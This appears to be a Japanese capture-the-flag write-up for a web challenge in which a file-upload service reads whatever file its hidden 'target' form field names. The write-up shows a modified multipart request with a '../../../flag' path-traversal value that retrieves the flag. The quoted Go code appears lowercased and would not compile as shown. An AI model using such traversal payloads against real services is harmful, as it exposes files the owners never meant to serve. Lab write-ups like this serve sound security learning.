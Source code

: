 # Extract_Service_1 (Web)

## 問題概要
ファイルをアップロードするサービスが与えあられる

![exs](exs.png)

また、FLAGがルート直下に配置されている

`Dockerfile`
```Dockerfile
RUN echo "FAKE{FAKE_FLAG}" > /flag

RUN chmod 664 /flag
```

## 解法
コードを読むとブラウザからは見えないが`target`というフィールドを見てそのファイルを読み込んでいることが分かる

`main.go`
```go
		extracttarget := c.postform("target")
		if extracttarget == "" {
			c.html(http.statusok, "index.html", gin.h{
				"result": "error : target is required",
			})
			return
		}
```

よって、BurpSuiteを使って以下のように書き換えたリクエストを送信するとフラグが得られる
```
------WebKitFormBoundary5yswuPyLmiL2tftP
Content-Disposition: form-data; name="target"

../../../flag
------WebKitFormBoundary5yswuPyLmiL2tftP--
```

